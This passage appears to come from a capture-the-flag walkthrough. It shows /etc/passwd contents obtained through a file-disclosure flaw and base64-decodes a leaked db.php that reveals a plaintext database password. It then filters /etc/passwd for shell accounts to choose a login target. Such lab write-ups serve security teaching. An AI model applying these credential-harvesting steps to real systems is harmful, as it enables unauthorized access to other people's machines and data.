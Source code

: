 ```html
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
</td>
  </tr>
  <tr>
    <td>CWE:</td>
    <td>PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=</td>
  </tr>
  <tr>
    <td>Score:</td>
    <td>1</td>
  </tr>
  <tr>
    <td>Reward:</td>
    <td>2</td>
  </tr>
</table>
```

Before trying to convert this into an RCE, inspected the base64 encoded content of `db.php` and we have found some credentials

```bash
$ echo -n 'PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=' | base64 -d
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

Considering the users we might have console access, from `/etc/passwd` we might have access with `development` account.

```bash
$ cat passwd| grep -E -v 'nologin|false'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
development:x:1000:1000:Development:/home/development:/bin/bash
```
